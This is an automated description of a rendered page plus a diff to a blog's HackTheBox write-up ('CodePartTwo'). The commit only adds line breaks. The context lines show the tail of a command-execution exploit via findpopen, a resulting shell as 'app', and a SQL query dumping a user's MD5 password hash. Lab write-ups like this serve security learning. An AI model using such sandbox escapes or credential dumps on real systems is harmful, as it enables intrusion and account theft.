

Before and after one commit to 20kilograma/blog, a Jekyll site: the page built from codeparttwo-htb.md, in a window 1280 px wide. Shown: the part 3851-4803 px from the top of the page, without its empty margins (108-1171 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; some web fonts are replaced; our own code applies the rules of GitHub Pages for plain Markdown files; before the commit the page ends 4775 px from its top, so only the background shows below that; grey boxes are pictures that could not be loaded.

Commit message:
Update codeparttwo-htb.md

```diff
--- a/codeparttwo-htb.md
+++ b/codeparttwo-htb.md
@@ -60,8 +60,8 @@ let result = findpopen(obj)(cmd, -1, null, -1, -1, -1, null, null, true).communi
 console.log(result)
 result</code></pre>
 <br>
-Now obviously we have the shell as <i>app</i>. We need to escalate the privilages further for the normal user to get the user flag.
-<img width="467" height="59" alt="image" src="https://github.com/user-attachments/assets/537d4d01-8147-4fce-ac4d-e089fc5130c4" />
+Now obviously we have the shell as <i>app</i>. We need to escalate the privilages further for the normal user to get the user flag. <br>
+<img width="467" height="59" alt="image" src="https://github.com/user-attachments/assets/537d4d01-8147-4fce-ac4d-e089fc5130c4" /> <br>
 If we check the <bold>~/app/instance</bold> directory, we can see there is a <i>users.db</i> file, when we open the file, we can see there is a <i>user</i>, now we select all the users from there:
 <pre><code class="language-none">SELECT * FROM user;
 1|marco|649c9d65a206a75f5abe509fe128bce5
```
